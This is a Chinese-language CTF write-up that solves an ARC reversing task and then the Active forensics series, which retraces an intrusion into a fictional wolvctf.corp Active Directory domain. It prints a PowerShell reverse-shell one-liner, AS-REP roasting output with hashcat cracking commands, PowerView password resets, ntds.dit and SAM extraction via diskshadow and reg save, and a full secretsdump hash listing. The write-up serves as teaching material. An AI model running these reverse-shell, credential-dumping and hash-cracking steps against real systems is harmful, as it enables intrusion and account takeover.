    switch ( *(unsigned int *)((char *)jpt_57A + ((unsigned __int8)v15 << ((char)&dword_0 + 2))) )
    {
      case 0u:
      case 1u:
      case 2u:
      case 3u:
        check_result(v11);
        break;
      default:
        return;
    }
  }
}
void __fastcall check_result(unsigned int a1)
{
  int j; // [sp+10h] [bp-10h]
  int v3; // [sp+14h] [bp-Ch]
  int i; // [sp+18h] [bp-8h]
  int v5; // [sp+1Ch] [bp-4h]

  printf("bytes: %08x
", a1);
  v5 = 0;
  for ( i = 0; i <= 3; ++i )
  {
    v3 = 0;
    for ( j = 0; j <= 7; ++j )
      v3 |= (((unsigned __int8)(a1 >> ((8 * i) & 0x1F)) >> (j & 0x1F)) & 1) << ((j + 2) & 7);
    v5 |= v3 << ((8 * i) & 0x1F);
  }
  printf("result: %08x
", v5);
}
void __fastcall decode(int a1, int a2, int a3, int a4, int a5, int a6, int a7, int a8, int a9)
{
  int v9; // gp
  int v10; // blink
  char v11[8]; // [sp+4h] [bp-24h] BYREF
  unsigned __int8 v12[8]; // [sp+Ch] [bp-1Ch] BYREF
  _BYTE v13[12]; // [sp+14h] [bp-14h] BYREF
  int *v14; // [sp+20h] [bp-8h]
  int i; // [sp+24h] [bp-4h]

  i = v10;
  v14 = &a9;
  puts("Message?", a2, a3);
  fgets(v13, 12, *(_DWORD *)(*(_DWORD *)(v9 - 252) + 4));
  hex_to_bytes(v13, v12);
  LOBYTE(v14) = v12[0];
  for ( i = 0; i <= 3; ++i )
    v11[i] = v12[i + 1] ^ active_subscription[4 * i + (unsigned __int8)v14];
  v11[4] = 0;
  printf("message: %s
", v11);
}
```

很明显subscribe输入的内容传递给了active\_subscription，已知message即异或完的结果，只要求出正确keys即可得到编码前的flag

check\_result实现了循环右移2位，但不知道传入的数据（ida没有正确反编译），查看汇编代码才发现传入数据



提取下作为初始keys

```
import struct

def ror8(a, b):
    return ((a >> b) | (a << (8 - b))) & 0xFF

keys = [0x12AC0256, 0x59A9D62B, 0x410FF20B, 0x2A318621]
msgs = [0xF348F4F3, 0x2D5EE7A9, 0x0FF2CF9D, 0xCC39EF35]
sol = []
for i, msg in enumerate(msgs):
    x = struct.pack(">I", msg)
    k = struct.pack(">I", keys[i])
    sol.extend(x[i] ^ ror8(k[i], 2) for i in range(4))

print(bytes(sol))
```

wctf{4Rc\_1s\_FuN}

## Active取证系列

### Active 1: Domain Access

> Oh no! Our beloved `wolvctf.corp` domain has been infiltrated! How did they manage to break into our domain controller? Please figure out how they got access into the domain controller box, how a shell was achieved, and how a domain account was obtained.
>
> We have provided just the user accounts because the attacker did not cover their tracks very well.
>
> *Flag is split up into 3 parts.*
>
> <https://drive.google.com/drive/folders/11MzaiPYvosPSYlKzqqAVX_muiv5p4yQA?usp=sharing>

```
Users_Backup.zip`'s password is `wolvctf
sha256sum:709b595d63ac9660b9c67de357337ee55ffd6658412b8c5c27b35efc05617893
```

C:\Users\mssql\_service\MSSQL13.SQLEXPRESS\MSSQL\Log\ERRORLOG里是第一部分flag `wctf{d0nt_3n4bl3_`

C:\Users\Public\Documents\winPEASOutput.txt 可以cat打印出来发现一大串base64解密如下（去除0字节）

```
$client = New-Object System.Net.Sockets.TCPClient("192.168.187.128",1433);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$encoded_flagpt2 = "X3hQX2NtZHNoMzExX3cxdGhfZDNmYXVsdF9jcjNkc18wcl8=s";$flagpt2 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($encoded_flagpt2));Write-Output $flagpt2;$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

里面base64解密得到第二段 `_xP_cmdsh311_w1th_d3fault_cr3ds_0r_`

```
╔══════════╣ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  WOLVCTF
    DefaultUserName               :  WOLVCTF\Dan
    DefaultPassword               :  DansSuperCoolPassw0rd!!
    AltDefaultUserName            :  loot-in-hex:656e61626c335f347574306c6f67306e5f306b3f3f213f7d
```

在里面发现又发现了一个hex字符串解密为第三段 `enabl3_4ut0log0n_0k??!?}`

上面的过程其实对应题目里获取账户控制权，利用了mysql

wctf{d0nt\_3n4bl3xP\_cmdsh311\_w1th\_d3fault\_cr3ds\_0r\_enabl3\_4ut0log0n\_0k??!?}

### Active 2: Lateral Movement

> The attacker moved laterally throughout our domain. I'm hearing reports from other members of `wolvctf.corp` that 3 lower level accounts were compromised (excluding the 2 higher level compromised accounts). Figure out which ones these are, and follow the attacker's steps to collect the flag.

这道题开始分析各个用户目录

首先Dan的历史命令行C:\Users\dan\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost\_history.txt里有信息

```
cd Desktop
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
powershell -ep bypass
.\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
Import-Module \SharpHound.ps1
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
.\Rubeus.exe asreproast /user:emily /domain:wolvctf.corp /dc:DC01.wolvctf.corp > asreproast.output
 .\Rubeus.exe kerberoast > kerberoast.output
runas /User:wolvctf\emily cmd`
```

里面提到了桌面上的output文件，在asreproast.output中找到了base64解密得到第一段flag `wctf{asr3pr04st3d?_`

```
   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: AS-REP roasting

[*] Target User            : emily
[*] Target Domain          : wolvctf.corp
[*] Target DC              : DC01.wolvctf.corp

[*] Using domain controller: DC01.wolvctf.corp (fe80::af8f:bc46:1257:36be%5)
[*] Building AS-REQ (w/o preauth) for: 'wolvctf.corp\emily'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$emily@wolvctf.corp:34C3460101DA5A3081FA4F6518A0ECE1$619944A029EF908C7
      8A80E2559C06788E2D86AEB1C94CD97E4540E5EA57C550C7FBD768D6EA24DBC66CFC6B8A9E39C364
      39CA4B50DCF29F3C078785F876835B239B3628F561D080F83294C9A3BC8D1C4DEC538A15339257DC
      AAB20F33EE168BDEA0671C4AB92DA6B089D7700E7BE42564706BFA903654EDF11376C1994BBE6B9C
      C65E53275EF3148B638AA5A52284E29912C3CA2171FD50FBD6929511416B51F8C4F8CB9383DA74E8
      DB3B0493A2654093C44BC399695525DD90E271A90C9992024A1D05E4188EC588663D2D849142AED6
      5C5B77C38ED3DC7BB65178A565248F199B5DC2D382D2DA016DAD023

[*_*] d2N0Znthc3IzcHIwNHN0M2Q/Xw==
```

此外可以hashcat破解krb5asrep（需要手动调整并加上$23），得到emiy密码

```
hashcat -m 18200 '$krb5asrep$23$emily@wolvctf.corp:34C3460101DA5A3081FA4F6518A0ECE1$619944A029EF908C78A80E2559C06788E2D86AEB1C94CD97E4540E5EA57C550C7FBD768D6EA24DBC66CFC6B8A9E39C36439CA4B50DCF29F3C078785F876835B239B3628F561D080F83294C9A3BC8D1C4DEC538A15339257DCAAB20F33EE168BDEA0671C4AB92DA6B089D7700E7BE42564706BFA903654EDF11376C1994BBE6B9CC65E53275EF3148B638AA5A52284E29912C3CA2171FD50FBD6929511416B51F8C4F8CB9383DA74E8DB3B0493A2654093C44BC399695525DD90E271A90C9992024A1D05E4188EC588663D2D849142AED65C5B77C38ED3DC7BB65178A565248F199B5DC2D382D2DA016DAD023' -a 0 rockyou.txt

hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-12th Gen Intel(R) Core(TM) i7-12700, 5824/5888 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 134 MB

Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

$krb5asrep$23$emily@wolvctf.corp:34c3460101da5a3081fa4f6518a0ece1$619944a029ef908c78a80e2559c06788e2d86aeb1c94cd97e4540e5ea57c550c7fbd768d6ea24dbc66cfc6b8a9e39c36439ca4b50dcf29f3c078785f876835b239b3628f561d080f83294c9a3bc8d1c4dec538a15339257dcaab20f33ee168bdea0671c4ab92da6b089d7700e7be42564706bfa903654edf11376c1994bbe6b9cc65e53275ef3148b638aa5a52284e29912c3ca2171fd50fbd6929511416b51f8c4f8cb9383da74e8db3b0493a2654093c44bc399695525dd90e271a90c9992024a1d05e4188ec588663d2d849142aed65c5b77c38ed3dc7bb65178a565248f199b5dc2d382d2da016dad023:youdontknowmypasswordhaha
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$emily@wolvctf.corp:34c3460101da5a3081...dad023
Time.Started.....: Thu Mar 27 09:16:37 2025 (2 secs)
Time.Estimated...: Thu Mar 27 09:16:39 2025 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1412.2 kH/s (11.00ms) @ Accel:128 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2588672/14344384 (18.05%)
Rejected.........: 0/2588672 (0.00%)
Restore.Point....: 2555904/14344384 (17.82%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: yulie. -> yoco2442

Started: Thu Mar 27 09:16:23 2025
Stopped: Thu Mar 27 09:16:40 2025
```

接着去看emily的历史命令行，发现了7z，用之前的密码+777即可解压

```
cd C:\Users\emily
tree /f /a > tree.txt
type tree.txt
cd Documents
dir
type README
echo "James asked me to keep his password secret, so I made sure to take extra precautions." >> C:\Users\Public\loot.txt
echo "Note to self: Password for the zip is same as mine, with 777 at the end" >> C:\Users\Public\loot.txt
del README
cp .\important.7z C:\Users\Public
del C:\Users\Public\loot.txt
del C:\Users\Public\important.7z
runas /User:wolvctf\james cmd
```

得到三张图，第一张car.jpeg foremost得到下图，获取了James的密码以及第二部分flag `sh0uldv3_3nabl3d_s0m3_k3b3r0s_pr34th_4nd_`



然后去看James命令行有第三段flag `d0nt_us3_4ll3xtendedr1ghts}`

```
cd C:\Users\Public\Documents
mv .\PowerView.txt .\PowerView.ps1
powershell -ep bypass
Import-Module .\PowerView.ps1
Find-DomainProcess
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force`
Set-DomainUserPassword -Identity 'emily' -AccountPassword $NewPassword
$NewPassword = ConvertTo-SecureString 'd0nt_us3_4ll3xtendedr1ghts}' -AsPlainText -Force`
Set-DomainUserPassword -Identity 'patrick' -AccountPassword $NewPassword
runas /User:wolvctf\patrick cmd
```

wctf{asr3pr04st3d?sh0uldv3\_3nabl3d\_s0m3\_k3b3r0s\_pr34th\_4nd\_d0nt\_us3\_4ll3xtendedr1ghts}

### Active 3: Domain Admin

> Now, it's time to figure out how this attacker obtained administrator access on our domain! To prove you have retraced the attacker's steps completely, submit the domain admin's password as the flag. It's already in the flag format.

检查jake的命令行历史如下

```
cd C:\Users\Public\Downloads
whoami
cd C:\Users\jake\desktop
whoami /all > whoami.txt
type .\whoami.txt
cd C:\Users\public
cd downloads
diskshadow.exe /s script.txt
diskshadow.exe /s script.txt > shadow.txt
type .\shadow.txt
cp .\shadow.txt C:\Users\jake\desktop\shadow.txt
del shadow.txt
robocopy /b z:\windows
tds . ntds.dit > robo.txt
type .\robo.txt
dir
del robo.txt
cp ntds.dit C:\Users\jake\downloads
del ntds.dit
cd C:\Users\jake\downloads
dir
reg save hklm\system c:\users\jake\downloads\system.hive
reg save hklm\sam C:\users\jake\downloads\sam.hive
dir
cp * C:\Users\public
del C:\Users\public
tds.dit
del C:\Users\public\sam.hive
del C:\Users\public\system.hive
runas /User:wolvctf\jessica
runas /User:wolvctf\jessica cmd
```

可以发现jake用户downloads目录下的system.hive和sam.hive存储了重要信息，使用secretsdump来破解

```
└─$ impacket-secretsdump -ntds ntds.dit -system system.hive -sam sam.hive LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x32032d8f6ff9102e4202d192c152e02a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1b921e44ea5dfd940c004044d4ef4cae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a802330d6d1dca4a57a459990af5e50e
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1b921e44ea5dfd940c004044d4ef4cae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b60be13c1c27a48e5c5afc10792afeab:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7f27814ee1fea90dc7495b265207db9d:::
mssql_service:2102:aad3b435b51404eeaad3b435b51404ee:6092ca0e60d24f30d848a5def59d4753:::
wolvctf.corp\james:4101:aad3b435b51404eeaad3b435b51404ee:4c20abe87d36b9ad715fd5671545abb5:::
wolvctf.corp\emily:4102:aad3b435b51404eeaad3b435b51404ee:5c7a26ae4c40018fa1660cc2f1d82269:::
wolvctf.corp\john:4103:aad3b435b51404eeaad3b435b51404ee:d24c1456aefeab3eb911c8015b9f6ce4:::
wolvctf.corp\patrick:4104:aad3b435b51404eeaad3b435b51404ee:0311f96ce47c5cc21529fcc8375f9c2e:::
wolvctf.corp\katherine:4105:aad3b435b51404eeaad3b435b51404ee:89218e0b151209e9d4fa0768ea72c70d:::
wolvctf.corp\Amy:4106:aad3b435b51404eeaad3b435b51404ee:4aa4474c2886f6a796bd75eebe5ebf01:::
wolvctf.corp\jessica:4107:aad3b435b51404eeaad3b435b51404ee:8fcdcffba18f392df7aa291527290aff:::
wolvctf.corp\frank:4108:aad3b435b51404eeaad3b435b51404ee:b0212745c59fcf54f06ea501cd409ff5:::
wolvctf.corp\chris:4109:aad3b435b51404eeaad3b435b51404ee:253cfc1375d39308ab1bb935b44e2010:::
wolvctf.corp\renee:4110:aad3b435b51404eeaad3b435b51404ee:9b5109ef6dbc8086ed36a90c20aa1d48:::
wolvctf.corp\peter:4111:aad3b435b51404eeaad3b435b51404ee:4f3cde005948d4e4fb232c35014ccafb:::
wolvctf.corp\dan:4112:aad3b435b51404eeaad3b435b51404ee:e9d959da74f5c7590a80d635b36705a6:::
wolvctf.corp\jake:4113:aad3b435b51404eeaad3b435b51404ee:cc4f0a96d3c0ce71b664e314b14ecd7e:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:6b130a0ae6ddfb1628acf2ad84147e1ee38015a076aad76b03af0c1da43815a2
Administrator:aes128-cts-hmac-sha1-96:9d47fe6fc6471fed5d102f32dfa71eed
Administrator:des-cbc-md5:01a1b5c21f94341c
DC01$:aes256-cts-hmac-sha1-96:79c96d12dd9cc6369096bd8dbfe181d921aeffd4aaa53fc0d0263c7a665ee4c3
DC01$:aes128-cts-hmac-sha1-96:47991a6fe70596e2f252209a7619ca93
DC01$:des-cbc-md5:f7d6a4c8026df26e
krbtgt:aes256-cts-hmac-sha1-96:a570965739e477e5636b47289b0ebd351b89089f904ddf6ba676a95fc043caf6
krbtgt:aes128-cts-hmac-sha1-96:d70b85a9394ab390cc7a7d3b294cf841
krbtgt:des-cbc-md5:a720fbdfc429ce38
mssql_service:aes256-cts-hmac-sha1-96:e3ae0982ea2ae94b4d989a89bbd966e593472e4653869b5188f0f0a175226bd0
mssql_service:aes128-cts-hmac-sha1-96:80b0488a2d5c02a819e73f5184fd4609
mssql_service:des-cbc-md5:13e51ff2c76802f8
wolvctf.corp\james:aes256-cts-hmac-sha1-96:744c13c321ea323429238a196eab9b65bea41b13577b13cf2ae4775e2540da22
wolvctf.corp\james:aes128-cts-hmac-sha1-96:1f60e252b18a1fe2edd73300996d3daa
wolvctf.corp\james:des-cbc-md5:5babd3bc9be6797a
wolvctf.corp\emily:aes256-cts-hmac-sha1-96:adcb0acc59b9454912378c69039bea23fee975074f9e0fd09b738cb1eb98fe54
wolvctf.corp\emily:aes128-cts-hmac-sha1-96:1950a20a02f7e41d000546d0aed292fc
wolvctf.corp\emily:des-cbc-md5:d5e58929a4b96b3d
wolvctf.corp\john:aes256-cts-hmac-sha1-96:d7aa03485fdead391b6c32bca4ebf7f0b3e6dc2cfd20c3a240bf066cbda3f4a9
wolvctf.corp\john:aes128-cts-hmac-sha1-96:df8b329de72ab17b743943e3a4023aca
wolvctf.corp\john:des-cbc-md5:b931a88615a794ab
wolvctf.corp\patrick:aes256-cts-hmac-sha1-96:e01f8578724ef569bf545872403df16a3ac16bc67604f911dd97df88f3363efd
wolvctf.corp\patrick:aes128-cts-hmac-sha1-96:0895763e253a210250b544de1eba67d9
wolvctf.corp\patrick:des-cbc-md5:57ba527967611658
wolvctf.corp\katherine:aes256-cts-hmac-sha1-96:b41404d85f0286000725a603bc890c5941c2356446f1acc6c6b4b80bd5b9fb16
wolvctf.corp\katherine:aes128-cts-hmac-sha1-96:32c9f2a4c32fa36dc248fea63c7a985f
wolvctf.corp\katherine:des-cbc-md5:9b852fb319e68aa8
wolvctf.corp\Amy:aes256-cts-hmac-sha1-96:88393904dcb9cfced8e477dbab7b8d2ce1967254789e075a932541dadb6a7561
wolvctf.corp\Amy:aes128-cts-hmac-sha1-96:7970b15f1ff40798a75eb47a80b5d117
wolvctf.corp\Amy:des-cbc-md5:73522c0170f120c1
wolvctf.corp\jessica:aes256-cts-hmac-sha1-96:8088cf6ebf4fae379d3d8cf0689e60d6c0f6f6aed5a69946d93418ea4962de68
wolvctf.corp\jessica:aes128-cts-hmac-sha1-96:8df17274caccb4e4ef84b0195669c842
wolvctf.corp\jessica:des-cbc-md5:19daa74645e398ba
wolvctf.corp\frank:aes256-cts-hmac-sha1-96:3dc99ada65b1bf26e6211c01dccaa3a87349afa35172c818a1e39ab6e1dd4035
wolvctf.corp\frank:aes128-cts-hmac-sha1-96:96d28a2a24a9a5fdadb6b31c7eab64bd
wolvctf.corp\frank:des-cbc-md5:1c6d2cad9e3dfd8c
wolvctf.corp\chris:aes256-cts-hmac-sha1-96:725f11a59f1c77f6ff41dd745cfc36e5229d09f271f471f9c52d7ed97793101a
wolvctf.corp\chris:aes128-cts-hmac-sha1-96:9d963b6be441bf2652dd4bc351415bed
wolvctf.corp\chris:des-cbc-md5:2ca2e983e632e5ba
wolvctf.corp\renee:aes256-cts-hmac-sha1-96:0ecee7ab365fd5a38999fae2ed19d3f02a9ed51e5987227023316ed8f19c77a2
wolvctf.corp\renee:aes128-cts-hmac-sha1-96:9e94283c417a8abe8f7752564b251051
wolvctf.corp\renee:des-cbc-md5:a1e69b1f1afef42a
wolvctf.corp\peter:aes256-cts-hmac-sha1-96:9558878dce8606d877c804dbbfea9cc42e0d4903f46158f5d8fd804c4a4dd5c2
wolvctf.corp\peter:aes128-cts-hmac-sha1-96:9e86af0d3775c494cdffa0be7190b030
wolvctf.corp\peter:des-cbc-md5:0867d54016ba0704
wolvctf.corp\dan:aes256-cts-hmac-sha1-96:f55a42a6f1784346962ff1c1e53c6e8384be32bcc781d90c4c8a1227dda3aebc
wolvctf.corp\dan:aes128-cts-hmac-sha1-96:9579003b132f9d68609107529450c919
wolvctf.corp\dan:des-cbc-md5:467cfb4a9dec7c46
wolvctf.corp\jake:aes256-cts-hmac-sha1-96:f166119ffe48d3f1bd6cce6cfe796045943d6e161d9b864ef2668dbb0f83003b
wolvctf.corp\jake:aes128-cts-hmac-sha1-96:fb335f8432d5caf9b5250568c6457122
wolvctf.corp\jake:des-cbc-md5:54917531317aec83
[*] Cleaning up... 
```

由第一题winPEASOutput.txt里可知jessica是admin，因此要找她的密码



所以关注jessica的ntml

```
wolvctf.corp\jessica:4107:aad3b435b51404eeaad3b435b51404ee:8fcdcffba18f392df7aa291527290aff:::
```



在C:\Users\dan\Documents\wolvctf\_audit\_20250318195834\_BloodHound里的groups搜domain admin找到第一段flag `wctf{bl00dh0und_is_c00l_`

```
Members who are part of this group have passwords w then a c then a t and an f, curly bracket left, 'bloodhound_is_cool_' (but all the 'o's are '0's), then a city in all lowercase appended by 3 numbers (secret only you know),  right curly bracket
```

根据提示要爆破城市名小写，github找了个主流城市[csv](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv)

```
with open("world-cities.csv", encoding="utf-8") as f:
    data = f.readlines()[1:]
with open("keepass.txt", "w", encoding="utf-8") as f:
    for d in data:
        f.write("wctf{bl00dh0und_is_c00l_"+d.split(",")[0].lower()+"
")
```

然后hashcat爆破

```
hashcat -a 6 -m 1000 "8fcdcffba18f392df7aa291527290aff" keepass.txt "?d?d?d}"
```


